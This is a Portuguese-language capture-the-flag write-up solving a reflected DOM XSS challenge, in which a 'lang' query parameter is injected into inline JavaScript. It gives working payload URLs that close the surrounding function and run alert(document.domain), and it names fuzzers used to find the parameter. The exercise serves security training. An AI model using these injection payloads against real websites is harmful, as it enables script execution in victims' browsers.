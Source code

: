 Resolução do Desafio "DOM" XSS Reflected - https://bountyleaks.cf/challenge/dom.php

1.  Ao acessarmos a página, vemos um trecho de código em JS
```
// Its not used anymore
function display_message(){
 var lang = "en-US";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}

// just say hello, doesnt matter what language do you speak, english is universal LOL
document.write('<h1>Welcome hacker =)</h1>');
```
2. Nesse ponto, levanta-se a suspeita que existe alguma querystring / parâmetro de URL que podemos manipular
Provavelmente a aplicação detecta qual o idioma do navegador do usuário ou aceita receber isso via parâmetro (refletindo na página).
3. Como não temos certeza, aqui caberiam duas abordagens:

3.1 Verificar que existem duas variáveis JS (lang e message) e verificar se via querystring elas são refletidas na página (?lang=teste e ?message=teste)

3.2 Utilizar algum fuzzer (ffuf, x8, dalfox, arjun) para usar um arquivo / lista cheio de parâmetros e ver qual pode estar refletindo na página: comando -url http://194.61.28.250/dom.php?FUZZAQUI=teste
4. Fazendo algum destes modos supracitados, chegamos a conclusão que acessando: http://194.61.28.250/dom.php?lang=123, faz com que o trecho de código da página vire:
```
// Its not used anymore
function display_message(){
 var lang = "123";
```
Dessa forma o valor informado pelo usuário via URL está refletindo na página (dando margem para injeção de códigos)
5. Como já estamos dentro de um contexto JS (dentro das tags script), não é preciso que a gente reabra essas tags para executar um javascript, mas mesmo assim, podemos confirmar que a aplicação não permite tags como < e > : http://194.61.28.250/dom.php?lang=123< 
Ao acessá-la, o parâmetro "var lang" volta para seu valor padrão: "en-US"
6. Então para executar o XSS, vamos precisar ter um pouco de conhecimento de JS, pois é o contexto que estamos inseridos: 

6.1 Nossa entrada de dados está sendo refletida dentro de um valor de variável (lang) que está dentro de uma função chamada display_message(), que por sua vez não é chamada automaticamente pelo site, somente declarada

6.2 Precisaremos, então, sair do contexto dessa função que não é chamada, para que nosso XSS seja executado assim que o usuário entrar na página

6.3 Para isso, precisamos fechar aquela chave da função display_message () "{", com uma chave fechando esse bloco de código: "}"

6.4 Caso acessássemos a URL: http://194.61.28.250/dom.php?lang=";%0a}%0aalert(123);// 
Considerando %0a para \n (quebra de linha), ficando o trecho de código do nosso site agora:
``` 
function display_message(){
 var lang = " ";
}
alert(123);//";
if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```
6.5 Conseguimos! Saímos do escopo da função JS, mas o JS não irá triggar, devido a um erro de sintaxe:
Não estamos mais dentro de uma função e existe linhas falando "return". O valor vai ser retornado pra onde? Não existe função englobando ela para esse retorno ficar explícito.
Esse erro inclusive será alertado em seu console do navegador. Qualquer erro de sintaxe JS dos sites voltam nele.

6.6 Vamos então criar uma outra função, fingindo que existe uma outra função logo após, englobando esses returns, então:
http://194.61.28.250/dom.php?lang=%22;%0a}%0aalert(document.domain);%0afunction%20nuncaserachamada(){//
Ficando nosso código:
```
function display_message(){
 var lang = "";
}
alert(123);
function nuncaserachamada(){//";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```

Pronto =), XSS executado o/

